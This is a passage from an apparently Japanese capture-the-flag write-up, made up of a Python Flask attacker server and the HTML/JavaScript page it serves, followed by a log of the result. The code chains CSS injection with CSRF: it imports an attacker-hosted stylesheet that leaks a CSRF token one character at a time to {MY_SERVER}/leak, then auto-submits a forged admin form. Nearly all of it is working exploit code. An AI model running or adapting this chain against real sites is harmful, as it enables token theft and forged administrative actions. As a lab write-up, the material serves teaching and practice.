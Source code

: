 ```py
<body>
    <form action="{TARGET_SERVER}/admin" method="POST">
        <input type="hidden" name="csrf_token" value="">
        <input type="hidden" name="username" value="satoki00">
        <input type="submit" value="Submit CSRF Request">
    </form>
    <script>
        let count = 0;
        setInterval(() => {{
            if (count > 40) {{
                fetch('/token')
                    .then(response => response.text())
                    .then(text => {{
                        document.querySelector('input[name="csrf_token"]').value = text;
                        document.forms[0].submit();
                    }})
            }}
            window.open('{TARGET_SERVER}/admin?message=%3Cstyle%3E@import%20url({MY_SERVER}/payload);%3C/style%3E');
            count++;
        }}, 1000);
    </script>
</body>
</html>
"""


@app.route("/payload")
def payload():
    css_payload = ""
    for c in token_string:
        css_payload += f"input[name='csrf_token'][value^='{csrf_token + c}'] ~ * {{ background-image: url('{MY_SERVER}/leak?token={csrf_token + c}'); }}\n"
    return Response(css_payload, mimetype="text/css")


@app.route("/leak")
def leak():
    token = request.args.get("token", "")
    global csrf_token
    csrf_token = token
    print(f"[LEAK] csrf_token = {csrf_token}")
    return ":)"


@app.route("/token")
def token():
    if len(csrf_token) != 32:
        print(f"[OMG] csrf_token = {csrf_token}")
    return csrf_token


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=31415)
```
ボットへ投げると以下のようにリークしたアクセスが得られる。  
```bash
$ python server.py
~~~
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET / HTTP/1.1" 200 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /favicon.ico HTTP/1.1" 404 -
***.***.***.*** - - [22/Sep/2024 01:23:45] "GET /payload HTTP/1.1" 200 -
[LEAK] csrf_token = 4
```